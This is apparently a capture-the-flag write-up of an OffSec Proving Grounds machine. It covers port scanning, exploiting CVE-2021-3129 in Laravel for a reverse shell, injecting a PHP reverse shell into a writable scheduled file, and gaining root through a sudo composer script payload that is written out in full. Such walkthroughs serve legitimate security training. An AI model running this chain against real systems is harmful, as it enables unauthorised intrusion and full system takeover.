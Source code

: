 ```yaml
---
title: CTF-200-07 (OffSec. Proving Grounds)
description: Write-up of CTF-200-07 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](../../assets/writeups/2023-12-27-CTF-200-07/poccheck.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](../../assets/writeups/2023-12-27-CTF-200-07/gettingrev1.png)

and we get the user shell

![rev2.png](../../assets/writeups/2023-12-27-CTF-200-07/rev2.png)

## Getting User:

User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](../../assets/writeups/2023-12-27-CTF-200-07/pspyresult.png)

And we have Write Access to it, 

![writeaccess.png](../../assets/writeups/2023-12-27-CTF-200-07/writeaccess.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](../../assets/writeups/2023-12-27-CTF-200-07/Screenshot_2023-12-28_11-47-12.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *

```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](../../assets/writeups/2023-12-27-CTF-200-07/root.png)


